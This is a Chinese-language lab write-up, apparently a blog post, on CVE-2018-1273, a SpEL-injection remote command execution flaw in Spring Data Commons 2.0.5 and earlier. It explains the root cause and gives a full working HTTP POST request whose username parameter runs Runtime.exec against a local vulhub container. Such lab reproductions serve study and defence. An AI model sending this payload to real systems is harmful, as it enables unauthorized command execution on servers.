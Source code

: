 
## Spring Data Commons远程命令执行漏洞(CVE\-2018\-1273\)


* 漏洞原理
vulhub解释：
Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring Data下所有子项目共享的基础框架。Spring Data Commons 在2\.0\.5及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。
* 理解：（看不懂建议先看下面的漏洞复现）
直接看漏洞事发地：
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/1b484b2e0b604edebd316bd3e65bedc0.png)
通过查看代码可以发现对参数名（propertyName）进行了很多操作，接着用propertyName设置了expression对象
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/86a7c79cbf00453694c9adadb665bcac.png)
然后到了expression.setValue 进去后就是 spel 表达式解析了，根本原因是getPropertyPath对参数名只进行了判断，但是使用的参数名还是原来的那个，所以导致我们通过修改参数名就能够进行SpEL注入攻击。
这可以继续往下看代码会看到该函数确实是进行了一个正则匹配，但是返回去后好像确实没看到对原本的参数名进行替换，所以还是使用原来的参数名去解析了。
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/c3937c9d8f9a4552966e7ca738ed3681.png)
* 影响版本：2\.0\.5及以前版本
* 漏洞复现
访问`/users`
随便抓一个包，然后替换为：



```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=

```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/0c83c964d4b440358ee38d610d9edf46.png)


发包之前先确认一下容器内不存在/tmp/success文件，因为我们攻击的代码就行创建/tmp/success文件
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/f57bdf7a0fc54cb0aab378c2f8a1cd22.png)
